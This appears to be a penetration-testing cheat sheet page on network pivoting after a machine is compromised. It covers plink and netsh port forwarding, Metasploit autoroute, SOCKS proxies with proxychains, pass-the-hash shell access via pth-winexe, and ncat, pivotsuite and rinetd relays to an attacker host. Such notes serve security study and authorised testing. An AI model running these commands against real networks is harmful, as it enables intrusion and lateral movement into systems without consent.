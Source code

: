 # 🔧 Other Tools

## plink (windows)

```
plink.exe -l root -R 445:127.0.0.1:445 YOURIPADDRESS
```

## Metasploit

### MANUAL ROUTE

this method will give the full access to the target IP address like its siting in our lan ( only accessible in metasploit )

```
background the session
route add 10.0.1.0/24 [session id]
```

### AUTO ROUTE

this method will give the full access to the target IP address like its siting in our lan ( only accessible in metasploit )

```
run autoroute -p >>> list active routing tables
run autoroute -s 10.1.1.0 -n 255.255.255.0 >>> netmask is optional
run autoroute -d -s 10.10.10.1  >>> delete autoroute on ip
run autoroute -s 10.10.10.1/24 >>> can use CIDR
```

### PROXY

add a proxy to proxychains.conf and use it inside and outside of metasploit

```
use auxiliary/server/socks4a
use auxiliary/server/socks5
use auxiliary/server/socks_unc
set srvport 8080 → set proxy local port
```

add 127.0.0.1 8080 to proxychains and make sure there are no other proxies in the config file:

```
socks4  127.0.0.1  8080
```

now run commands with proxychains prefix

```
proxychains nmap -Pn -sT -sV -p- [target]
proxychains pth-winexe -U windows10/user123//10.0.1.5 cmd.exe
```

### PORT FORWARD

forward only the given remote port to the given local port specifically ( only accessible in msfconsole )

```
portfwd [add | delete | list | flush]  -L [optional local ip] -l [local port] -p [remote port] -r [remote ip]

portfwd add -L 0.0.0.0 -l 8000 -p 80 -r 10.1.0.5
```

now we can scan our local port 8000 to scan the remote port 80 of the target

### PIVOTING BIND SHELL

usually used when exploiting a machine in the internal network. first we have to do port forwarding to scan the network

```
portfwd add -L 0.0.0.0 -l 8000 -p 80 -r 10.1.0.5
```

now add a route to target ip in the internal network

```
route -h
route add 10.0.1.5/24 [session number] 
```

now choose your exploit and set the rhost to the target ip in the internal network and run the exploit and remember:

```
background# meterpreter session
route add <IP_victim> <Netmask> <Session> # (ex: route add 10.10.10.14 2552.55.255.0 8)
use auxiliary/server/socks4a
run #Proxy port 1080 by default
echo "socks4 127.0.0.1 1080" > /etc/proxychains.conf #Proxychains
```

Another way:

```
background #meterpreter session
use post/windows/manage/autoroute
set SESSION <session_n>
set SUBNET <New_net_ip> #Ex: set SUBNET 10.1.13.0
set NETMASK <Netmask>
run
use auxiliary/server/socks4a
run #Proxy port 1080 by default
```

{% hint style="warning" %}
ALLWAYS USE A BIND SHELL WHILE PIVOTING
{% endhint %}

if we use a reverse shell the target machine on the internal network wont be able to route back the packets to us

![](<../../.gitbook/assets/image (267).png>)

### PIVOTING REVERSE SHELL

while using a reverse shell with pivoting we have to set the RHOST to target ip in the internal network and set the LHOST to the machine that we have already compromized

```
RHOST >>> internal target
LHOST >>> compromized machine
```

![](<../../.gitbook/assets/image (269).png>)

## Ncat

```
# Ncat =/= netcat
# Enhanced version, developped by nmap dev and often packaged with
# Ciphered connexion, IP restriction
# To pivot, needed on both attacker and pivot machine

# Attacker (broker == accept multiple connexions)
$ ncat -lv --broker --max-conns 2

# Pivot
# We connect to attacker and target
$ ncat -v 192.168.2.149 31337 -c 'ncat -v 10.42.42.2 80'
```

## PivoteSuite

```
# Similar features to other tools but support multilevel pivot
# Like Metasploit

# "Remote" local port forwarding
# On the pivot
$ pivotsuite -S -F --server-option=PF --forward-ip=10.42.42.2 --forward-port=80 --server-ip=192.168.2.105 --server-port=8080

# "Remote" dynamic port forwarding
$ pivotsuite -S -F --server-option=SP --server-ip=192.168.2.105 --server-port=8080
```

## RINETD

```
 sudo apt install rinetd
```

edit the config file:

```
nano /etc/rinetd.conf
```

![](<../../.gitbook/assets/image (268).png>)

```
service rinetd restart
```

bind address is attacker machine bind port is the listening incoming port connectaddress is the address to forward the traffic to and connectport is the target port.

## NETSH (Windows)

{% hint style="warning" %}
for this to work, the Windows system must have the IP Helper service running and IPv6 support must be enabled for the interface we want to use. Fortunately, both are on and enabled by default on Windows operating systems.
{% endhint %}

```
netsh interface portproxy add v4tov4 listenport=4455 listenaddress=10.11.0.22 connectport=445 connectaddress=192.168.1.110
netsh advfirewall firewall add rule name="forward_port_rule" protocol=TCP dir=in localip=10.11.0.22 localport=4455 action=allow
```

test:

```
smbclient -L 10.11.0.22 --port=4455 --user=Administrator
```





